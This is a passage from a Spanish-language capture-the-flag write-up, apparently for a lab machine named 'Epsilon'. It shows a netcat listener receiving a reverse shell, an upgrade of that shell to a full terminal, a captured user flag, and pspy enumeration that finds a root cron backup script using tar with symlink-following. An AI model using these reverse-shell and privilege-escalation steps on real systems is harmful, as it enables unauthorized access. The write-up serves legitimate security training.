 Recibo la conexión en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.134] 46098
bash: cannot set terminal process group (1035): Inappropriate ioctl for device
bash: no job control in this shell
tom@epsilon:/var/www/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
tom@epsilon:/var/www/app$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
tom@epsilon:/var/www/app$ export TERM=xterm
tom@epsilon:/var/www/app$ export SHELL=bash
tom@epsilon:/var/www/app$ stty rows 55 columns 209
```

Puedo ver la primera flag

```null
tom@epsilon:~$ cat user.txt 
2ba869dc0e6e636c3f92c320aedfc4de
```

# Escalada

Subo el ```pspy``` para detectar tareas que se ejecutan a intervalos regulares de tiempo

```null
2023/06/15 16:12:01 CMD: UID=0    PID=3228   | /bin/sh -c /usr/bin/backup.sh 
2023/06/15 16:12:01 CMD: UID=0    PID=3229   | date +%N 
2023/06/15 16:12:01 CMD: UID=0    PID=3231   | /usr/bin/tar -cvf /opt/backups/344478446.tar /var/www/app/ 
2023/06/15 16:12:01 CMD: UID=0    PID=3233   | /bin/bash /usr/bin/backup.sh 
2023/06/15 16:12:01 CMD: UID=0    PID=3232   | sha1sum /opt/backups/344478446.tar 
```

Se está ejecutando ```/usr/bin/backup.sh```. No tengo capacidad de escritura

```null
tom@epsilon:/tmp$ ls -l /usr/bin/backup.sh 
-rwxr-xr-x 1 root root 362 Dec  1  2021 /usr/bin/backup.sh
```

Pero sí leerlo

```null
tom@epsilon:/tmp$ cat !$
cat /usr/bin/backup.sh
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*
```
